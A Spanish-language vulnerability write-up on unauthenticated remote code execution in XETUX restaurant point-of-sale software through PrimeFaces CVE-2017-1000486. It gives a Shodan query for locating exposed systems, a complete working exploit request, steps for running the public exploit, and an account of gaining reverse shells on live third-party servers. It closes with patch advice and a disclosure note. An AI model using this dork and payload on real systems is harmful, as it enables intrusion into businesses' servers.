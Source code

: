 # De la Mesa al Código: Un Viaje a Través de la Vulnerabilidad RCE en POS para Restaurantes

En esta oportunidad nos encontramos por casualidad con una vulnerabilidad presente en varias aplicaciones de POS para restaurantes [XETUX](https://www.xetux.com/pa/), la cual es una solución para monitoreo  y automatización de restaurantes.  En panamá es una herramienta ampliamente utilizada por varios restaurantes.

La vulnerabilidad presente es una RCE (remote code execution), que permite atacantes ejecutar códigos de manera no autenticada y ganar privilegios en el objetivo.

![2](img/2.png)

##### 1. Enumeración 

Una vez descubrimos que la existencia de una librería presente en la aplicación llamada primefaces, encargada de generar pdf, decidimos realizar una búsqueda en shodan para identificar posibles objetivos

```
http.title:"@XETUX" country:PA
```

La búsqueda arrojo 40 resultados y 334 en el mundo

![1](img/1.png)

Procedemos a comprobar la vulnerabilidad en uns objetivos que no se encontraban en Panamá, al analizar los resultados el backend 

![3](img/3.png)

Podemos observar que la aplicación ha sido instalada con todos los privilegios **nt authoriy\system**, vamos a explicar lo que sucede a continuación:

La aplicación esta usando un apache tomcat como server, para el backend se utiliza java, en la aplicación usan una librería o un plugin de terceros llamados Primefaces, la ruta con el problema es el endpoint **javax.faces.resource/dynamiccontent.properties.xhtml**

Al buscar sobre dicha librería encontramos una [vulnerabilidad](https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix), Primefaces carga contenido dinámico de la siguiente manera

```html
/javax.faces.resource/dynamiccontent.properties.jsf?ln=primefaces&pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl&forcereload=1523006610695&pfdrid_c=true
```

El problema se encuentra en el parámetro **pdfid**

`pfdrid=dY1NMdRjZ4sqkGAPrRzKkmxm5b1DSrlJ7VXTVU2i7gmrhtVAkmH7aR8cUk7h%2BTgl`

El valor del parametro va cifrado y no hay manera de validar si la petición será descifrada correctamente, desafortunadamente sino modifican los valores de la llave por defecto se pueden solicitar la generación de una default key, por lo que afortunadamente para nosotros todas las pruebas realizadas mantenían la lleve por defecto.

De igual manera se podría realizar un ataque Padding Oracle Attack y obtener las llave con la Herramienta Padbuster. A continuación compartimos la solicitud 

```html
POST /xc-one-pos/javax.faces.resource/dynamiccontent.properties.xhtml HTTP/1.1
Host: ip:9090
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_14_3) AppleWebKit/605.1.15 (KHTML, like Gecko) Version/12.0.3 Safari/605.1.15
Content-Length: 1643

pfdrt=sc&ln=primefaces&pfdrid=4xE5s8AClZxUxmyaZjpBstMXUalIgOJHOtvxel%2Fv4YXvibdOn52ow4M6lDaKd9Gb8JdQqbACZNWVZpVS%2B3sX1Hoizouty1mYYT4yJsKPnUZ0LUHDvN0GB5YLgX1PkNY%2B1ZQ%2FnOSg5J1LDyzAjBheAxLDODIVcHkmJ6hnJsQ0YQ8bMU5%2B%2BTqeD4BGqCZMDjP%2BZQvveiUhxsUC%2F%2BtPqnOgFSBV8TBjDSPNmVoQ9YcKTGelKuJjS2kCXHjcyz7PcQksSW6UUmKu9RhJ%2Bx3Mnx6j56eroVPWnM2vdYRt5An6cLo1YPXu9uqriyg1wgm%2F7xYP%2FUwP1q8wfVeyM4fOw2xJzP6i1q4VLHLXi0VYHAIgaPrZ8gH8XH4X2Kq6ewyrJ62QxBF5dtE3tvLAL5tpGxqek5VW%2BhZFe9ePu0n5tLxWmqgqni8bKGbGrGu4IhXhCJhBxyelLQzPGLCfqmiQwYX5Ime9EHj1k5eoWQzH8jb3kQfFJ0exVprGCfXKGfHyfKfLEOd86anNsiQeNavNL7cDKV0yMbz52n6WLQrCAyzulE8kBCZPNGIUJh24npbeaHTaCjHRDtI7aIPHAIhuMWn7Ef5TU9DcXjdJvZqrItJoCDrtxMFfDhb0hpNQ2ise%2BbYIYzUDkUtdRV%2BjCGNI9kbPG5QPhAqp%2FJBhQ%2BXsqIhsu4LfkGbt51STsbVQZvoNaNyukOBL5IDTfNY6wS5bPSOKGuFjsQq0Xoadx1t3fc1YA9pm%2FEWgyR5DdKtmmxG93QqNhZf2RlPRJ5Z3jQAtdxw%2BxBgj6mLY2bEJUZn4R75UWnvLO6JM918jHdfPZELAxOCrzk5MNuoNxsWreDM7e2GX2iTUpfzNILoGaBY5wDnRw46ATxhx6Q%2FEba5MU7vNX1VtGFfHd2cDM5cpSGOlmOMl8qzxYk1R%2BA2eBUMEl8tFa55uwr19mW9VvWatD8orEb1RmByeIFyUeq6xLszczsB5Sy85Y1KPNvjmbTKu0LryGUc3U8VQ7AudToBsIo9ofMUJAwELNASNfLV0fZvUWi0GjoonpBq5jqSrRHuERB1%2BDW2kR6XmnuDdZMt9xdd1BGi1AM3As0KwSetNq6Ezm2fnjpW877buqsB%2BczxMtn6Yt6l88NRYaMHrwuY7s4IMNEBEazc0IBUNF30PH%2B3eIqRZdkimo980HBzVW4SXHnCMST65%2FTaIcy6%2FOXQqNjpMh7DDEQIvDjnMYMyBILCOCSDS4T3JQzgc%2BVhgT97imje%2FKWibF70yMQesNzOCEkaZbKoHz498sqKIDRIHiVEhTZlwdP29sUwt1uqNEV%2F35yQ%2BO8DLt0b%2BjqBECHJzI1IhGvSUWJW37TAgUEnJWpjI9R1hT88614GsVDG0UYv0u8YyS0chh0RryV3BXotoSkSkVGShIT4h0s51Qjswp0luewLtNuVyC5FvHvWiHLzbAArNnmM7k%2FGdCn3jLe9PeJp7yqDzzBBMN9kymtJdlm7c5XnlOv%2BP7wIJbP0i4%2BQF%2BPXw5ePKwSwQ9v8rTQ%3D%3D&cmd=whoami
```

##### 2. Reverseshell

Como mencionamos anteriormente la librería que contiene el RCE es Primefaces la cual tiene un exploit público [CVE-2017-1000486](https://github.com/pimps/CVE-2017-1000486)

Probaremos la vulnerabilidad bajando el exploit 

```shell
git clone https://github.com/pimps/CVE-2017-1000486.git
cd CVE-2017-1000486
pip3 install -r requirements.txt
```

Ejecutamos el exploit

![4](img/4.png)

El mismo nos va arrojar una llave y la petición 

![5](img/5.png)

Nos devolverá el resultado del comando 

![6](img/6.png)

Ahora vamos a proceder a obtener la shell reversa, debemos destacar que algunos targets tenían el AV activado y más de una solución de seguridad por lo que se debe realizar el bypass correspondiente. No procederemos a demostrar las técnicas de bypass, pero mostramos en la siguiente imagen el acceso al server:

![7](img/7.png)

##### 3. Consideraciones Finales

- Es importante destacar que la falla no solamente aplica al software Xetux, la misma esta en la librería Primefaces se encuentra en otras aplicaciones como **MaxView Storage Manager** y **DOCBOX**. 

- Los fix para la vulnerabilidad se encuentran hace años puesta el mismo es del 2017, se recomienda actualizar el primefaces.

- El acceso al endpoint es sin autenticación por lo que cualquiera puede realizar peticiones, por lo que se debe validar si las peticiones son válidas.

- Si utiliza alguna de las aplicaciones mencionados compartimos el repositorio de nuclei con el que pueden comprobar si son vulnerables https://gitlab.com/t0adsec/nuclei-templates

- Responsablemente hemos informado a los proveedores de la app en sus respectivos países, no obstante a la fecha no hemos recibido contacto de parte de ellos.

  

##### 4. Referencias

- *XETUX 软件 dynamiccontent.properties.xhtml 远程代码执行漏洞-CSDN博客*. (s. f.). https://blog.csdn.net/holyxp/article/details/134402720
- Gobysec. (s. f.). *GobyVuls/GobyVuls-Document.md at master · gobysec/GobyVuls*. GitHub. https://github.com/gobysec/GobyVuls/blob/master/GobyVuls-Document.md
- Lindner, S. (2018, 26 abril). *PrimeFaces Expression Language Remote Code Execution fix*. illucIT Software GmbH. https://www.illucit.com/en/java-ee/primefaces-expression-language-remote-code-execution-fix
